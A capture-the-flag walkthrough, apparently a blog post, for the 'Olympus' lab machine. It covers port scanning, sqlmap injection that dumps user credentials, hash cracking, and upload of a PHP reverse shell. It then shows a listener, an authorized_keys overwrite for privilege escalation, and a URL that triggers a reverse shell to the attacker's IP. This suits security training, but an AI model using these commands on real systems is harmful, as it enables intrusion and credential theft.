 ```yaml
---
title: "Olympus"
description: ""
pubDate: "Jul 15 2022"
heroImage: "/Olympus/olympus.jpeg"
---
```


## **Scanning:-**

### **Nmap:-**

## nmap -A -T4 -p- [ IP ]

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:78:14:04:2c:df:25:fb:4e:a2:14:34:80:0b:85:39 (RSA)
|   256 8d:56:01:ca:55:de:e1:7c:64:04:ce:e6:f1:a5:c7:ac (ECDSA)
|_  256 1f:c1:be:3f:9c:e7:8e:24:33:34:a6:44:af:68:4c:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Olympus
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/18%OT=22%CT=1%CU=33277%PV=Y%DS=2%DC=T%G=Y%TM=62D505F
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=101%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## **/etc/hosts**

![Untitled](/Olympus/Untitled.png)

![Untitled](/Olympus/Untitled%201.png)

## **olympus.thm**

![Untitled](/Olympus/Untitled%202.png)

## **enumeration**

![Untitled](/Olympus/Untitled%203.png)

## Visit Olympus.thm

```bash
**http://olympus.thm/~webmaster/**
```

![Untitled](/Olympus/Untitled%204.png)

## Exploit

```bash
https://www.exploit-db.com/exploits/48734
```

## SQL injection

```bash
	sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3
```

![Untitled](/Olympus/Untitled%205.png)

```bash
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --random-agent -v 3 --batch --tables
```

![Untitled](/Olympus/Untitled%206.png)

```bash
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --random-agent -v 3 --batch -T users --dump
```

![Untitled](/Olympus/Untitled%207.png)

## **Cracking Hashes**

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./hash
```

![Untitled](/Olympus/Untitled%208.png)

## **Login**

![Untitled](/Olympus/Untitled%209.png)

![Untitled](/Olympus/Untitled%2010.png)

## **Sub domain**

![Untitled](/Olympus/Untitled%2011.png)

**Let’s add subdomain in hosts** 

## Visit chat.Olympus.thm

![Untitled](/Olympus/Untitled%2012.png)

## **Login**

**Reuse the old credentials which we found earlier**

![Untitled](/Olympus/Untitled%2013.png)

## **Reverse Shell**

**Send a php reverse shell file.**

![Untitled](/Olympus/Untitled%2014.png)

**We cannot access the file by the original name.The file name changed after the files upload.Let’s use SQL injection again to find the name of the file.**

**Filname:-**

```bash
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --random-agent -v 3 --batch --tables
```

![Untitled](/Olympus/Untitled%2015.png)

```bash
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --random-agent -v 3 --batch -T chats --dump
```

![Untitled](/Olympus/Untitled%2016.png)

Exploiting:-

Start Listener:-

```bash
sudo pwncat-cs -l -p 1234
```

Visit the link:-

```bash
http://chat.olympus.thm/uploads/1323f6d43cd467f78da284dee8106534.php
```

![Untitled](/Olympus/Untitled%2017.png)

## Local Privilege Escalation:-

![Untitled](/Olympus/Untitled%2018.png)

**Generate ssh key:-**

```bash
ssh-keygen
```

![Untitled](/Olympus/Untitled%2019.png)

**Copy the id_rsa.pub to the victim machine**.

![Untitled](/Olympus/Untitled%2020.png)

**Overwrite:-**

**Run the cputils and Select the id_rsa.pub and set the target to /home/zeus/.ssh/authorized_keys**

![Untitled](/Olympus/Untitled%2021.png)

**ssh login as zeus:-**

![Untitled](/Olympus/Untitled%2022.png)

## Root:-

![Untitled](/Olympus/Untitled%2023.png)

**Let’s Visit the php page:-**

![Untitled](/Olympus/Untitled%2024.png)

**Login using the password which found inside the php file.**

![Untitled](/Olympus/Untitled%2025.png)

![Untitled](/Olympus/Untitled%2026.png)

**Start Listener:-**

Set Ip=[your ip]&port=[listener port]

```bash
http://10.10.194.107/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=10.18.8.246&port=4321
```

![Untitled](/Olympus/Untitled%2027.png)

**We got shell:-**

![Untitled](/Olympus/Untitled%2028.png)

![Untitled](/Olympus/Untitled%2029.png)